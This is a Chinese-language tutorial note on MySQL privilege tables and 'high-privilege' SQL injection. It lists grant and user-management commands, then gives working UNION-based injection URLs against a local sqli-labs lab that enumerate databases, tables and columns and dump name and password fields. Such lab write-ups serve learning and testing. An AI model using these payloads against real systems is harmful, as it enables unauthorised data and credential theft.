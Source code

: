 # 

# SQL注入—高权限注入

## MySQL 权限介绍

MySQL服务器通过权限表来控制用户对数据库的访问，权限表存放在 `mysql` 数据库中，`mysql` 库中存在4个控制权限的表：`user` 表，`db` 表，`tables_priv` 表，`columns_priv` 表。

​	

### 系统权限表

- User 表：存放用户账户信息以及全局级别（所有数据库）权限，决定了来自哪些主机的哪些用户可以访问数据库实例，如果有全局权限则意味着对所有数据库都有此权限
- Db 表：存放数据库级别的权限，决定了来自哪些主机的哪些用户可以访问此数据库
- Tables_priv 表：存放表级别的权限，决定了来自哪些主机的哪些用户可以访问数据库的这个表
- Columns_priv 表：存放列级别的权限，决定了来自哪些主机的哪些用户可以访问数据库表的这个字段
- Procs_priv 表：存放存储过程和函数级别的权限

​	

### MySQL 权限级别

- 全局性的管理权限： 作用于整个 MySQL 实例级别
- 数据库级别的权限： 作用于某个指定的数据库上或者所有的数据库上
- 数据库对象级别的权限：作用于指定的数据库对象上（表、视图等）或者所有的数据库对象

​	

### mysql权限表的验证过程

1. 从 user 表中的 Host, User, Password 这3个字段中判断连接的 ip、用户名、密码是否存在，存在则通过验证
2. 通过身份认证后，进行权限分配
3. 按照 user，db，tables_priv，columns_priv 的顺序进行验证
4. 先检查全局权限表 user，如果 user 中对应的权限为 Y，则此用户对所有数据库的权限都为 Y，将不再检查 db、tables_priv、columns_priv
5. 如果为 N，则到 db 表中检查此用户对应的具体数据库并得到 db 中为 Y 的权限
6. 如果 db 中为 N，则检查 tables_priv 中此数据库对应的具体表，取得表中的权限 Y，以此类推

​	

### 查看 MySQL 服务器有哪些用户

```mysql
select user, host from mysql.user;
```

​	

### 查看用户对应权限

```mysql
select * from user where user='root' and host='localhost'\G;  #如果所有权限都是 Y ，就是什么权限都有
```

​	

### 创建 MySQL 用户

有两种方式创建 MySQL 授权用户

```mysql
#执行 create user/grant 命令（推荐方式）
CREATE USER 'finley'@'localhost' IDENTIFIED BY 'some_pass';

#通过 insert 语句直接操作 MySQL 系统权限表
```

​	

### 只提供 id 查询权限

```mysql
grant select(id) on test.temp to test1@'localhost' identified by '123456';
```

​	

### 把普通用户变成管理员

```mysql
GRANT ALL PRIVILEGES ON *.* TO 'test1'@'localhost' WITH GRANT OPTION;
```

​	

### 删除用户

```mysql
drop user finley@'localhost';
```

​	

​	

## 高权限注入

**注入流程与正常的手工注入流程差不多**

​	

### 查询所有数据库名称

![](https://pic.imgdb.cn/item/64c1e59c1ddac507cc84eff2.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(schema_name),3 from information_schema.schemata
```

​	

### 查询数据库对应的表名

![](https://pic.imgdb.cn/item/64c1e6af1ddac507cc867e76.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(table_name),3 from%20information_schema.tables where table_schema=test
```

​	

### 查询表名对应的字段名

![](https://pic.imgdb.cn/item/64c1e6bf1ddac507cc8695d7.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=t1
```

​	

### 查询数据

![](https://pic.imgdb.cn/item/64c1e6d01ddac507cc86a965.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,name,pass from test.t1
```



